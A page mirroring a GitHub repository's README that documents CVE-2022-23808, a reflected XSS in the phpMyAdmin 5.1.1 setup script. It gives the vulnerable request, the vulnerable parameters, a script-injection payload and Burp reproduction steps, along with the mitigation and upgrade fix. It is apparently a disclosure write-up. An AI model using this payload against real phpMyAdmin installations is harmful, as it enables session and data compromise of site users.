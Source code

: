 # CVE-2022-23808

phpMyAdmin XSS 

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/dipakpanchal456](https://github.com/dipakpanchal456) |
| Url      | [https://github.com/dipakpanchal456/CVE-2022-23808](https://github.com/dipakpanchal456/CVE-2022-23808)                                               |
| Stars    | 85                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* bugbounty* cross-site-scripting* database* exploit* exploitation* hacking* infosec* owasp* owasp-top-10* pentesting* phpmyadmin* poc* redteam* redteaming* vulnerability* xss* zeroday

</details>

## Readme

# phpMyAdmin Exploit

**Exploit Title :** phpMyAdmin 5.1.1 - XSS (Cross-site Scripting)                                                          
**Exploit Author :** [Dipak Panchal](https://twitter.com/DipakPanchal05) **([@th3.d1p4k](https://instagram.com/th3.d1p4k))**                 
**Vendor Homepage :** https://www.phpmyadmin.net                      
**Software Link :** https://www.phpmyadmin.net/files/5.1.1/                 
**Affected Versions :** phpMyAdmin versions of the 5.1 branch prior to 5.1.2 are affected.                
**Tested on :** Windows 10 and Linux    
**CVE :** [CVE-2022-23808](https://nvd.nist.gov/vuln/detail/CVE-2022-23808)       
**Reference :** https://www.phpmyadmin.net/security/PMASA-2022-2/         

### **Description:**
A series of weaknesses has been discovered that could allow an attacker to inject malicious code in to aspects of the setup script, which can allow XSS or HTML injection.

### **Request:**

```
GET /phpmyadmin/setup/index.php?page=servers&mode=test&id=test  HTTP/1.1      
Host: 127.0.0.1:1234       
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0      
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8      
Accept-Language: en-US,en;q=0.5     
Connection: close   
Cookie: pma_lang=en; phpMyAdmin=fs55xxxxxxx; pma_lang=en; pmaUser-1=xxxxxxxxxxxxxxxxxxxxxxxxxxx; phpMyAdmin=xxxxxxxxxxxxxxx; pmaAuth-1=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx           
Upgrade-Insecure-Requests: 1          
Cache-Control: max-age=0          
```

### **Vulnerable Parameter(s) :** 
* mode
* id

### **Payload :**
```
">'><script>alert(document.domain)</script>
```

### **Steps to reproduce :**

1. Capture above reuqest in burp.
2. Replace/Change XSS payload with vulnerable parameters.
3. Click on send and show response in browser.
4. You'll get popup!

## **Proof of Concept :**
![2022-01-26_21h45_23](https://user-images.githubusercontent.com/31427462/152356009-88cb5947-6abf-481f-9cc1-58c8cf4a6a12.png)


### **Mitigation :**
A phpMyAdmin installation with a configuration file config.inc.php will not allow access to the setup script, which in turn mitigates this attack.


### **Fix :**
Upgrade to phpMyAdmin 5.1.2 or newer or apply patch listed below.



## Get the content

```
git clone https://github.com/dipakpanchal456/CVE-2022-23808
cd CVE-2022-23808
```

{% embed url="https://github.com/dipakpanchal456/CVE-2022-23808" %}

<figure><img src="https://avatars.githubusercontent.com/u/31427462?v=4" alt=""><figcaption><p>dipakpanchal456</p></figcaption></figure>
